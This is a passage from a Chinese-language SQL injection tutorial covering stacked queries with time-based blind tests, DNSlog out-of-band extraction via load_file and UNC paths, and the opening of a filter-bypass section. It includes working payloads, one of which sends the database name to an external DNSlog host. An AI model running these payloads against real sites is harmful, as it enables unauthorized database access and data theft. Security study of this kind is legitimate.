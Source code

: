 ```php
{
    echo "error";
}
$conn = null;
?>
```

堆叠注入原理：

程序利用PDO对象连接数据库，这种情况下数据库可以同时执行多条sql查询语句，各个语句之间用分号隔开

例如：

```sql
http://127.0.0.1/sql/duidie.php?id=1;select if(length(database())=4,sleep(5),1)--+
```

堆叠注入的返回的通常是第一条查询语句的结果，因此在利用堆叠注入的时候通常在第二条查询语句中使用时间盲注

这样就可以通过时间来判断第二条语句的结果

#### 10.DNSlog注入

dnslog注入也可以称之为dns带外查询，是一种注入姿势，可以通过查询相应的dns解析记录，来获取我们想要的数据

secure_file_priv特性，有三种状态
secure_file_priv为null 表示不允许导入导出
secure_file_priv指定文件夹时，表示mysql的导入导出只能发生在指定的文件夹
secure_file_priv没有设置时，则表示没有任何限制

**有路径或为null 的 则不可以进行 DNSlog 外带**

查询命令：```show variables like '%secure%'```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220430201136.png)



DNSLog注入工具：

[http://www.dnslog.cn](http://www.dnslog.cn/)

[http://ceye.io](http://ceye.io/)

UNC路径就是类似\softer这样的形式的网络路径。它符合 \servername\sharename 格式，其中 servername 是服务器名，sharename 是共享资源的名称。

那我们这就是通过这种方式来带出信息
load_file() 里面我们构造UNC路径

```
?id=12' union select 1,load_file(concat('\\\\',(select database()),'05kb3l.dnslog.cn'))--+&Submit=Submit#
```

DNS记录中就会返回查询的信息

### SQL绕过

#### 1.大小写绕过

